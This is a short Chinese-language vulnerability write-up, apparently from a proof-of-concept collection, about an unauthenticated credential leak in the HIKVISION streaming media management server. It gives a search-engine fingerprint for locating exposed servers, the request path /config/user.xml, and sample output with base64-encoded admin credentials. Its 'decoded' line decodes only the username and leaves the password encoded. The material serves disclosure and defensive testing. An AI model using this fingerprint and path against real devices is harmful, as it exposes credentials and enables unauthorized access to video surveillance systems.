 # HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

HIKVISION 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

```
HIKVISION 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登陆页面

![image-20220519172629739](./images/202205191726829.png)

POC

```
/config/user.xml
```

![image-20220519172714407](./images/202205191727443.png)

```
<user name="YWRtaW4=" password="MTIzNDU="/>
```

base64解密

```
<user name="admin" password="MTIzNDU="/>
```

